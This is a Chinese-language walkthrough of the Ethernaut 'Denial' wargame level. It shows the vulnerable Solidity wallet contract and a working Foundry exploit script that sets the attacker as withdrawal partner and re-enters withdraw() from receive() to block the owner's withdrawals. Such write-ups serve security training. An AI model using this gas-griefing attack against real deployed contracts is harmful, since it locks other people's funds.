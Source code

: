 # Level 20 - Denial
## 題目
[Denial](https://ethernaut.openzeppelin.com/level/0x2427aF06f748A6adb651aCaB0cA8FbC7EaF802e6)

### 通關條件
這是一個簡單的錢包，隨著時間的推移，資金會逐漸流失。您可以透過成為提款合夥人慢慢提款。
如果您可以在所有者調用時拒絕所有者提取資金 `withdraw()`（同時合約仍然有資金，並且交易的 Gas 量為 1M 或更少），您將贏得此級別。
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
## 解題
這一題也是要讓別人提款失敗，跟 [Level 9 - King](https://hackmd.io/@D13/ethernaut9) 一樣，也就是 DoS 這個合約。
合約中有一個提款的 function `withdraw()`，他會把款項轉給 partner 跟 owner，然後第 10 行可以將 partner 改成自己。
接著我們在自己的合約中設計 `receive()` 會再次呼叫關卡的 `withdraw()`，導致提款功能不能繼續下去；owner 就無法領到錢，所以這題的攻擊思路就是：
1. 設計 `receive()` 中重新呼叫關卡的 `withdraw()`
2. 呼叫關卡的 `setWithdrawPartner(address _partner)` 將 `partner` 改為自己
3. 呼叫關卡的 `withdraw()`，成功 DoS
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/20_Denial.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();
        DenialAttack denialAttack = new DenialAttack();
        denialAttack.attack();
        vm.stopBroadcast();
    }
}

contract DenialAttack {
    Denial level20 = Denial(payable(your_challenge_address));

    function attack() public {
        level20.setWithdrawPartner(address(this));
    }

    receive() external payable {
        level20.withdraw();
    }
}
```
